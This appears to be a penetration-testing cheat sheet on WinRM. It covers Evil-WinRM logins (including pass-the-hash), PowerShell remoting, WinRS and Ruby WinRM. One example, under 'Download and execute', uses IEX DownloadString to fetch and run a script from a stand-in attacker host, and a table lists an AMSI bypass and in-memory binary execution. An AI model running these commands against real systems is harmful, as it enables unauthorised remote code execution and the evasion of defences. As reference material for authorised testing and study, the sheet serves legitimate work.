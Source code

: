 ```yaml
---
id: Usage
aliases: []
tags:
  - Networking/Services/WinRM/Usage
---
```


# Usage

<!-- Connect {{{-->
## Connect

<!-- Evil-WinRM {{{-->
### Evil-WinRM

Basic connection

```sh
evil-winrm -i <target> -u administrator -p '<password>'
```

With domain

```sh
evil-winrm -i <target> -u 'DOMAIN\<user>' -p '<password>'
```

Using hash (*Pass-the-Hash*)

```sh
evil-winrm -i <target> -u administrator -H 'NTHASH'
```

Using SSL (*port `5986`*)

```sh
evil-winrm -i <target> -u administrator -p '<password>' -S
```

With custom port

```sh
evil-winrm -i <target> -u administrator -p '<password>' -P 5985
```

<!-- }}} -->

<!-- PowerShell {{{-->
### PowerShell

Create credentials

```sh
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force
```

```sh
$cred = New-Object System.Management.Automation.PSCredential("administrator", $password)
```

Connect interactively

```sh
Enter-PSSession -ComputerName <target> -Credential $cred
```

Run command remotely

```sh
Invoke-Command -ComputerName <target> -Credential $cred -ScriptBlock { whoami }
```

Connect to multiple machines

```sh
$computers = "server1", "server2", "server3"
```

```sh
Invoke-Command -ComputerName $computers -Credential $cred -ScriptBlock { hostname }
```

<!-- }}} -->

<!-- WinRS {{{-->
### WinRS

Execute single command

```sh
winrs -r:http://<target>:5985 -u:administrator -p:<password> "whoami"
```

Interactive shell

```sh
winrs -r:http://<target>:5985 -u:administrator -p:<password> cmd
```

With domain

```sh
winrs -r:http://<target>:5985 -u:DOMAIN\<username> -p:<password> cmd
```

<!-- }}} -->

<!-- Ruby WinRM {{{-->
### Ruby WinRM

Connect using Ruby [WinRM](https://github.com/WinRb/WinRM) library

> [!example]-
>
> ```sh
> require 'winrm'
>
> conn = WinRM::Connection.new(
>   endpoint: 'http://target.com:5985/wsman',
>   user: 'administrator',
>   password: 'password'
> )
>
> conn.shell(:powershell) do |shell|
>   output = shell.run('Get-Process') do |stdout, stderr|
>     STDOUT.print stdout
>     STDERR.print stderr
>   end
> end
> ```

<!-- }}} -->

___

<!-- }}} -->

<!-- Commands {{{-->
## Commands

Execute commands remotely through WinRM

Basic command execution

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -ScriptBlock { whoami }
> ```

Multiple commands

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -ScriptBlock {
>   whoami
>   hostname
>   ipconfig
> }
> ```

Execute local script on remote

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -FilePath .\script.ps1
> ```

Download and execute

> [!example]-
>
> ```sh
> Invoke-Command -ComputerName <target> -ScriptBlock {
>   IEX(New-Object Net.WebClient).DownloadString('http://<attacker.com>/script.ps1')
> }
> ```

<!-- evil-winrm {{{-->
### evil-winrm

[evil-winrm](https://github.com/Hackplayers/evil-winrm) commands

> [!example]-
>
> | Command | Description | Usage |
> | --- | --- | --- |
> | `upload` | Upload file to target | upload /local/file.exe C:\Windows\Temp\file.exe |
> | `download` | Download file from target | download C:\file.txt /tmp/file.txt |
> | `services` | List services | services |
> | `menu` | Show available commands | menu |
> | `Bypass-4MSI` | Bypass AMSI | Bypass-4MSI |
> | `Invoke-Binary` | Execute binary from memory | Invoke-Binary /path/to/binary.exe |

<!-- }}} -->

<!-- PowerShell {{{-->
### PowerShell

PowerShell remoting cmdlets

> [!example]-
>
> | Cmdlet | Description | Example |
> | --- | --- | --- |
> | `Enter-PSSession` | Interactive remote session | `Enter-PSSession -ComputerName target` |
> | `Exit-PSSession` | Exit remote session | `Exit-PSSession` |
> | `Invoke-Command` | Run command remotely | `Invoke-Command -ComputerName target -ScriptBlock <cmd>` |
> | `New-PSSession` | Create persistent session | `$s = New-PSSession -ComputerName target` |
> | `Remove-PSSession` | Close session | `Remove-PSSession -Session $s` |
> | `Get-PSSession` | List active sessions | `Get-PSSession` |

<!-- }}} -->

___

<!-- }}} -->
